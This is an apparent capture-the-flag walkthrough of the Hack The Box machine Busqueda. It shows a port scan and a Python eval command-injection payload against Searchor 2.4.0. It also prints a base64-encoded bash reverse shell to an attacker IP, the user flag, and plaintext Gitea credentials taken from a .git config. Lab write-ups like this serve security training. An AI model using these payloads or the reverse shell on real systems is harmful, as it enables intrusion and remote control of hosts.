 # Busqueda
## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.208 --min-rate 1000 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 06:54 PDT
Nmap scan report for 10.10.11.208
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.75 seconds
```

1. Based from the result, we know the host is running a web application in Apache version 2.4.52.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/526c63f9-847f-47ed-bd77-601505d93479)


2. Looking at the footer, we know the webapp using Flask and searchor version 2.4.0 (which is outdated) and there are many documentation out there.
3. Telling that this version is vulnerable to **command injection**.

> Documenations

```
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```

4. Reading one of the github, it seems the vuln is at:

> The blocked

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1a5046fd-3c43-4817-9098-589e27c710e5)


5. There's a eval usage, which allows us to inject bash command. But we can't just send --> `__import__('os').system('id')`, after tested the feature in normal way, seems we need to add `'` and wrap the python code with `str()`.

> TESTING NORMAL WAY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/677c944e-abcb-4b1a-ae32-60ecc1d11f0c)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/651bc11c-53be-4a88-b50d-367ad49224d4)


> OUR PAYLOAD

```py
') + str(__import__('os').system('id')) #
```

6. What it will look like:

```py
url = eval(Engine.<some_engine>.search('') + str(__import__('os').system('id')) #', copy_url={copy}, open_web={open})")
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60c5b8bd-f160-4eb2-a9b9-b206961c9dc4)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/322d7a72-6ea5-414e-97de-030dedb402e3)


7. Long story short, I got the user.txt inside the /home/svc directory.

```
') + str(__import__('os').system('cd .. && cd .. && cd .. && cd home && cd svc && cat user.txt && ls -a')) #
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ce1079fb-52db-4f00-a420-1661b7804100)


## USER FLAG

```
d8ad3edaacebd00c00e4b7c6fbdfbb77
```


8. To get the root flag, we need to do reverse shell first. I used this bash script template:

```sh
bash -i >& /dev/tcp/10.10.14.25/1337 0>&1
```

9. So our payload shall look like this:

```py
') + str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNS8xMzM3IDA+JjE=|base64 -d|bash')) #
```

10. Now set a listener at port 1337 and send the payload.

> RESULT - GOT SHELL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca6c8071-116a-4c3e-88e0-6cf31dc86e88)


11. Well, when traversing to find the user.txt before, I found a .git directory which has a cred at the config file. Also it referencing to gitea.searcher.htb site.

```
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
svc@busqueda:/var/www/app/.git$ 
```

> gitea.searcher.htb -> use -> cody:jh1usoih2bkjaspwe92

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1871d832-3231-4080-8722-511ebd99bed1)









